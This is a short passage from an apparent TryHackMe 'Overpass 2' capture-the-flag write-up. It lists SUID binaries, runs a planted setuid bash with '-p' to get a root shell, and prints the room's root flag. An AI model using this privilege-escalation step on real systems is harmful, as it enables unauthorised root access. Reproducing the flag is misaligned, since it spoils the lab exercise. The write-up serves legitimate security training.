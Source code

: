 ```
/bin/su
/bin/ping
/bin/umount
/home/james/.suid_bash
```
we already know how to abuse `bash` in suid 

there is a nice `-p` flag you might want to read about


```
james@overpass-production:/home/james$ ./.suid_bash -p
.suid_bash-4.4# whoami
root

.suid_bash-4.4# cat root.txt
thm{Cooctusclan_is_busted}

```
Overpass 2 completed!








